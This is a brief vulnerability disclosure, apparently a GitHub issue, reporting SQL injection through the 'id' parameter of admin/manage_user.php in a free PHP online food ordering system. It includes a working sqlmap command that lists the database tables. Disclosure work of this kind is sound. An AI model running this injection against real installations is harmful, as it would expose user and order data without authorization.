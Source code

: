 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212478563-258363e0-0666-45bc-b80b-de23e2fd1ebe.png)
sqlmap.py -u "http://192.168.249.88/php-fos-db/admin/manage_user.php?id=1" -D fos_db --tables
![image](https://user-images.githubusercontent.com/30823782/212478593-f71cbe6e-37bb-4c2d-8a95-26e1ce7d72f8.png)

